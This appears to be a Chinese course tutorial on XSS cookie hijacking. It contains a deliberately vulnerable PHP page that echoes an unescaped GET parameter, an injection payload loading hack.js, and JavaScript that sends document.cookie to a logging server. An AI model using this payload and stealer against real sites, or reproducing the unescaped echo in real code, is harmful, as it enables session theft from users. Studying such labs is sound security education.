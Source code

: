 运用XSS实现Cookie劫持<br />[https://www.icourse163.org/spoc/university/PPSUC#/c](https://www.icourse163.org/spoc/university/PPSUC#/c)
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        document.cookie = "qiluo=True"; // 该网站源码生成了"qiluo=True"的Cookie
    </script>
    <?php 
    ini_set("display_errors", 0);
    $str = $_GET["name"]; // 获取get传参
    echo "<h2 align=center>欢迎用户".$str."</h2>"; //这里可以xss注入
    ?>
</body>
</html>
```
```
?name=<script%20src="./hack.js"></script> //payload植入恶意的js脚本
```

![image.png](./images/20231017_2355375032.png)<br />hack.js脚本
```javascript
var img = document.createElement("img"); //创建img对象
img.src = "http://127.0.0.1/log.php?"+encodeURI(document.cookie); //为img的src属性指向远程服务器并get传递被劫持网站的cookie
document.body.appendChild(img); // 放入劫持网站执行js恶意脚本
```
在远程服务器的log日志中可以看到传递的Cookies<br />![image.png](./images/20231017_2355387876.png)
